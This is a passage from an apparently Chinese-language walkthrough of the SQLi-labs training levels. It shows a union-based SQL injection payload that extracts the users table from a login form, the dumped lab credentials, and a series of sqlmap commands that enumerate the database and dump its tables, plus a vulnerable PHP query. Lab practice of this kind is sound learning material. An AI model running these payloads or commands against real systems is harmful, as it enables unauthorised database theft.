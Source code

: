 

## 爆字段内容

`1' union select 1,(select group_concat(username,'^',password)from users) #`

>Your Login name:1
>Your Password:Dumb^Dumb,
>Angelina^I-kill-you,
>Dummy^p@ssword,
>secure^crappy,
>stupid^stupidity,
>superman^genious,
>batman^mob!le,
>admin^admin,
>admin1^admin1,
>admin2^admin2,
>admin3^admin3,
>dhakkan^dumbo,
>admin4^admin4

## sqlmap

```
启动sqlmap探测注入点
sqlmap -u ip --data="uname=admin&passwd=admin" --batch
爆破当前数据库名
sqlmap -u ip --data="uname=admin&passwd=admin" --batch --current-db
爆破数据表
sqlmap -u ip --data="uname=admin&passwd=admin" --batch -D security --tables
最后脱库
sqlmap -u ip --data="uname=admin&passwd=admin" --batch -D security -T users --dump
```



## 或者将抓包内容保存到.txt文件中

```bash
sqlmap.py -r 1.txt -p 'uname' --batch
爆破数据库
sqlmap.py -r 1.txt -p 'uname' --batch --current-db
爆破表
sqlmap.py -r 1.txt -p 'uname' --batch -D security --tables
脱库
sqlmap.py -r 1.txt -p 'uname' --batch -D security --dump
```

# Pass12

```bash
$uname='"'.$uname.'"';
	$passwd='"'.$passwd.'"'; 
	@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
```
